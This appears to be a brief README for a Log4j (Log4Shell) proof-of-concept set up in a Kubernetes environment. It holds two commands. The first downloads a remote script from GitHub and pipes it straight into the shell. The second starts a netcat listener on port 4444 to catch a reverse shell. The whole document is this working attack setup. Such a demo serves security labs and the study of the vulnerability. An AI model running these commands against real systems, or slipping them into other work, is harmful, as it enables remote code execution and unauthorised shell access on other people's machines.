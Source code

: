 # log4j-poc in kubernetes environment

Terminal 1: 
apt-get update && apt-get install -y wget;wget -q -O - https://raw.githubusercontent.com/nandakrr/log4j-poc/main/run.sh | sh

Terminal 2: 
kubectl exec -it nc-pod -- nc -lvnp 4444

